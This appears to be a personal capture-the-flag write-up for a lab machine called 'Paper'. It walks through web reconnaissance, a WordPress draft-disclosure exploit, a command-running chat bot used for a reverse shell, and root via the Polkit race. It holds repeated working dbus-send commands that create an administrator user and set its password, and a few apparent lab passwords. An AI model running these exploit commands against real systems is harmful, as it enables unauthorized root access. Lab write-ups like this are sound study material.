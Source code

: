 # <span style="color:#CC6699">Machine #19 (Active) Paper</span>  


## <span style="color:#CC6699">Notes During Working on the Machine 🧐🤓   

* Found this in the headers of the response of the http and https. Seems interesting  
  ```
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  ```  
* In the body there's this tag that had the following  
  ```html
   <meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
  ```  
* What is HTML Tidy and is it relevant? Doesn't seem like it's much  

* Based on Wappalyzer's results the web server is Apache.

* Research fastcgi.
* `gobuster dir -u 10.10.11.143 -x php,cgi,txt,html,md -w ./apache.fuzz.txt -b '404,403,400' -o apache.output.fuzz.txt`
* I think I'm gonna go back to it later.
* The cgi seems like the right path. I think.
* Quoted from Apache's documentation 
  <blockquote>
  It is favored by the PHP developers
  </blockquote>  
  This means that it's a high probability that the backend is written in php.

* I tried an apache exploit for cgi-bin it returned 404 but what was interesting is the `X-Backend-Server` header in the response   
  ```
  HTTP/1.1 404 Not Found
  Date: Fri, 11 Mar 2022 10:41:51 GMT
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  X-Backend-Server: office.paper //I'm thinking this could be a virtual host of some kind
  Content-Length: 196
  Content-Type: text/html; charset=iso-8859-1
  ```  

* Turns out it is some kind of a virtual host and when I opened `http://office.paper` I got another response but the `https` didn't give me anything.
* The website seems to be using REST APIs. What made me think this is the structure of the url `http://office.paper/index.php/2021/06/19/feeling-alone/`  

* So nick is revealing more than he should  
  <img src="./nick.png">  

* So it seems like the website is using *Wordpress* and it's written in *php*.
* `prisonmike` seems like he is the only user that can login. It's not working as the username for the wordpress login
* Seems like the user `nick` exists  
  <img src="./nick_login.png">

* Found this path in source code `http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png` for an image it might be useful.  
* Found Wordpress version  
  ```html
  <!-- generator="WordPress/5.2.3" -->
  ```  
* Found this subdomain `http://chat.office.paper/home` and a draft that I found by using an exploit I found for the specific wordpress version we have.  
* Found a bot that I can ask to list files on the system. I can cat the files only.
* `gobuster dns -d office.paper -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt`  

* Queenofblad3s!23

* dwightschrute


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$9S6xxwc8VPUCYQuU$KrtrLFCbnH8q6uZzOtB7KW7efCn4BMlTJGGAaqSTFi0' string:GoldenEye & sleep 0.008s ; kill $!

* Polkit exploitation that the exact operating system that we have is vulnerable to. It has the exact specifications that allow this exploit to succeed
<br/><br/>

time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1



dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.031s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$7Bmgdl.nOd4aCvZT$aJYFtjdy7Q1k4nj4BYOmkLJwy9LRyHKANHlGwDtXgz2' string:GoldenEye & sleep 0.037s ; kill $!

dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.004s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$DZLSLHAIcAsGYarl$J31FNwHG4ZOf7hu0.LmuX13.y1xl9xz8HnySsPaMaK7' string:GoldenEye & sleep 0.035s ; kill $!

$5$1dKf1P7dhcB2i1QA$PQJrOE013sKIrqLOaWbdPTWpFFW0qhJV2f4ckr0WM28

## <span style="color:#CC6699">How Did I Solve the Machine 😎🥳 

1. Found a header that had `X-Backend-Server:office.paper` and when I tried to put `office.paper` as the domain for http it opened up a whole new website which meant that there are "Virtual Hosts".  
2. The website works on Wordpress.
3. Found an exploit after I bruteforced for files and directories for the specific version of WordPress we had.
4. If I put the parameter `?static=1` to any page it could open up secrets ( I think it shows me a test page or sth like that Imma research this).
5. When using the exploit I found a url for a subdomain that uses "rocketchat" and you can't register unless we had a specific url.
6. After registering I found a bot that I can straight up send commands to.
7. After some research I found that if I put the word `run` before any comand I can run anything I want. So I put a reverse shell and easily got foothold in the system.  
8. I kept researching the system for something until I found that it was vulnerable for a Polkit exploit. The exact OS version and whatever the exploit needs I have. This got me root.

<br/><br/>



## <span style="color:#CC6699">Where I Got Stuck?😡😧  

* I got stuck researching the system for a way to privesc until I updated linpeas and found a polkit vulnerability in the operating system.

<br/><br/>



## <span style="color:#CC6699">What Did I learn from this Machine?👀  

* Bots can sometimes be a vulnerability.

<br/><br/>



<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->